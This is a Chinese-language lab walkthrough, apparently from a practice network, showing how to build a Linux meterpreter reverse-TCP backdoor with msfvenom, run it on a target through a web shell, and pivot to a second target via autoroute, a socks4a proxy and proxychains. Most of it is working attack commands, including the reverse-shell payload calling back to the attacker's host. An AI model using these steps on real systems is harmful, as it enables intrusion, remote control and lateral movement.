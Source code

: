 1、查看自己的IP地址，并根据自己的IP地址及目标靶机的系统类型生成对应的后门文件

    root@kali:~# ifconfig
    root@kali:~# msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.1.113 LPORT=6666 SessionCommunicationTimeout=0 SessionExpirationTimeout=0 -f elf >shell.elf
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012214116429.png%23pic_center)-
2、在kali中配置运行监听模块

    root@kali:~# msfconsole
    msf5 > use exploit/multi/handler
    msf5 exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
    msf5 exploit(multi/handler) > set lhost 0.0.0.0
    msf5 exploit(multi/handler) > set lport 6666
    msf5 exploit(multi/handler) > options
    msf5 exploit(multi/handler) > run
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012214131446.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
3、通过蚁剑将shell.elf文件上传到Target1中，并赋予777权限以执行

    (www:/www/wwwroot/ThinkPHP/public) $ chmod 777 shell.elf
    (www:/www/wwwroot/ThinkPHP/public) $ ./shell.elf
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012214146240.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
4、此时MSF获取到shell，通过meterpreter添加第二层的路由

    run autoroute -s 192.168.22.0/24
    run autoroute -p
    
        

这一步也可以使用run post/multi/manage/autoroute自动添加路由-
![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012214206232.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
5、在MSF中添加代理，以便让攻击机访问靶机2，经过多次测试，发现MSF使用socks5代理总是失败，因此这里还是采用了socks4

    msf5 > use auxiliary/server/socks4a
    msf5 auxiliary(server/socks4a) > set srvport 2222
    msf5 auxiliary(server/socks4a) > options
    msf5 auxiliary(server/socks4a) > run
    
        

![在这里插入图片描述](https://cubox.pro/c/filters:no_upscale()?imageUrl=https%3A%2F%2Fimg-blog.csdnimg.cn%2F20201012214220203.png%3Fx-oss-process%3Dimage%2Fwatermark%2Ctype_ZmFuZ3poZW5naGVpdGk%2Cshadow_10%2Ctext_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM0ODAxNzQ1%2Csize_16%2Ccolor_FFFFFF%2Ct_70%23pic_center)-
6、修改proxychains-ng的配置文件，这里也可以使用proxychains进行代理，不过前者是后者的升级版，因此这里使用proxychains-ng进行代理

    root@kali:~# vim /etc/proxychains.conf
    加入以下内容：
    socks4     192.168.1.113     2222
    
        

7、尝试扫描靶机2，该步骤如果一直提示超时，可以把MSF退出再重新配置
